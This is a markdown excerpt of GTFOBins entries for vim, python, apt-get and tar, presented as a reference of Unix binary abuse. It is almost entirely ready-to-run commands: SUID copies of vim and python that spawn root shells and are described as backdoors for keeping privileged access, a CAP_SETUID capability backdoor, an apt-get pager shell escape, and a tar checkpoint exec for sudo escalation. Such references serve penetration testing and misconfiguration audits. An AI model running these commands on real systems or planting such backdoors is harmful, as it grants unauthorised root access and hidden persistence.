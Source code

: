 # GTFOBins

[https://gtfobins.github.io/](https://gtfobins.github.io/)

## vim

[https://gtfobins.github.io/gtfobins/vim/](https://gtfobins.github.io/gtfobins/vim/)

...

### SUID
If the binary has the `SUID` bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a `SUID` backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default sh shell to run with `SUID` privileges.

This example creates a local `SUID` copy of the binary and runs it to maintain elevated privileges. To interact with an existing `SUID` binary skip the first command and run the program using its original path.

This requires that vim is compiled with `Python` support. Prepend `:py3` for `Python 3`.

```bash
sudo install -m =xs $(which vim) .

./vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

## python

[https://gtfobins.github.io/gtfobins/python/](https://gtfobins.github.io/gtfobins/python/)

...

### SUID
If the binary has the `SUID` bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a `SUID` backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default sh shell to run with `SUID` privileges.

This example creates a local `SUID` copy of the binary and runs it to maintain elevated privileges. To interact with an existing `SUID` binary skip the first command and run the program using its original path.

```bash
sudo install -m =xs $(which python) .

./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

### Capabilities
If the binary has the Linux `CAP_SETUID` capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process `UID`.

```bash
cp $(which python) .
sudo setcap cap_setuid+ep python

./python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```


## apt-get
[https://gtfobins.github.io/gtfobins/apt-get/](https://gtfobins.github.io/gtfobins/apt-get/)

...

### Shell
It can be used to break out from restricted environments by spawning an interactive system shell.

This invokes the default pager, which is likely to be less, other functions may apply.

```bash
apt-get changelog apt
!/bin/sh
```
...

## tar

[https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

...

### Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```